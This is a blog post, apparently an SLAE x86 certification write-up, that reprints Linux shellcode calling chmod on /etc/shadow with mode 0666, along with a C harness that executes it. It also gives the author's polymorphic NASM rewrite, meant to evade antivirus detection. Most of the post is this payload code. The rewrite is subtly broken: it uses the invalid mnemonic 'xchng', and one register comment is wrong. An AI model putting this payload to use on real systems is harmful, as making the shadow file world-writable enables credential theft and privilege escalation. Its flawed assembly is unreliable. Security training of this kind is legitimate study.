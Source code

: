 ```yaml
---
title:  "SLAE x86 Assignment 6: Polymorphic Shellcode"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 6 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
So what is Polymorphism? It is a technique used by exploit developers in order to prevent detection by anti-viruses, and make it hard for other security researchers to fingerprint and understand malicious shellcode. It is done by replacing instructions with similar ones, or by adding in arbitrary instructions that do not affect the operation of the shellcode, or both.

As you may imagine though, this will lead to an increase in size of the shellcode. With that being said, let's start with our first shellcode!

### Shellcode 1: [chmod(/etc/shadow, 0666) & exit()](http://shell-storm.org/shellcode/files/shellcode-556.php)
This shellcode will change the permissions of ```/etc/shadow``` to 666 by executing a ```chmod```. Written by ka0x, here is the original shellcode. It currently has a size of 33 bytes:
```c
#include <stdio.h>

/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009

    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!

*/

int main()
{

    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80

    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();

    return 0;
}
```
Here is a polymorphic version:
```nasm
; SLAE Assignment 6: Polymorphic chmod(/etc/shadow, 0666) & exit()
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text
_start:

  ;clear registers
  lahf                                        ;load flags
  cmc                                         ;complement the carry flag (random stuff)
  xor ecx, ecx                                ;ecx=0
  mul ecx                                     ;eax and ebx=0

  ;chmod
  add al,0xf                                  ;syscall number for chmod
  push ecx                                    ;push nulls onto the stack
  mov dword [esp-4], 0x776f6461               
  mov dword [esp-8], 0x68732f2f               
  mov dword [esp-12], 0x6374652f              ;/etc/shadow
  sub esp, 12                                 ;stack adjustment
  mov esi, esp                                ;move pointer to args into esi
  xchng ebx, esi                              ;move pointer to args into ebx
  push word 0x16d                             ;push 555
  pop ecx                                     ;pop it into ecx
  add ecx, 0x49                               ;add 111 to ecx, which makes it 666
  int 0x80                                    ;syscall
  xor eax, eax                                

  ;exit
  mov al, 0x1
  int 0x80
```
